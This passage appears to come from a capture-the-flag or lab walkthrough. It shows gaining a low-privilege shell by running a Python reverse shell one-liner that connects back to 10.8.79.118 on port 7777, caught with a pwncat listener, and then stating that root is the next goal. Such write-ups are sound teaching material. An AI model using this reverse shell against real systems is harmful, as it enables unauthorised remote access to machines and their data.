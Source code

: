![create python file](./pic/new_python.png)
	
Now we can upload a python3 revshell:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.79.118",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
i also started a listener:
```bash
python3 -m pwncat -lp 7777
```
then i just clicked run above:
	
![run python script](./pic/run_python.png)
	
# User dev-datasci-lowpriv

We are now dev-datasci user and we need to get root.
<br> 
